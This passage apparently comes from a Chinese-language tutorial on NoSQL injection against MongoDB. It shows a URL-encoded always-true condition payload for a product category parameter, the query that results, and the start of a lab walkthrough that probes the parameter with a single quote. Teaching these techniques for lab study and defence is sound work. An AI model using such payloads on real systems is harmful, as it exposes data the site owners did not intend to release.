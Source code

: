 ##### 条件覆盖

现在您已经确定可以影响布尔条件，所以我们可以尝试覆盖现有条件以利用该漏洞，例如：您可以注入一个始终计算为 true 的 JavaScript 条件，例如："||1||"

```plain
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27
```

![图片](assets/1711872140-3f0abe94f158eb69a5c056901fceef6a.webp)

这将导致以下 MongoDB 查询，而此时由于注入的条件始终为 true，因此修改后的查询将返回所有项，这使您能够查看任何类别中的所有产品，包括隐藏或未知类别

```plain
this.category == 'fizzy'||'1'=='1'
```

简易示例

Step 1：首先访问靶场并选择过滤器对类别进行过滤

![图片](assets/1711872140-4045f12cd0acddbeebeb70450a411299.webp)

Step 2：随后对类别参数进行注入测试，提交以下语句会引发报错提示信息

```plain
/filter?category=a'
```
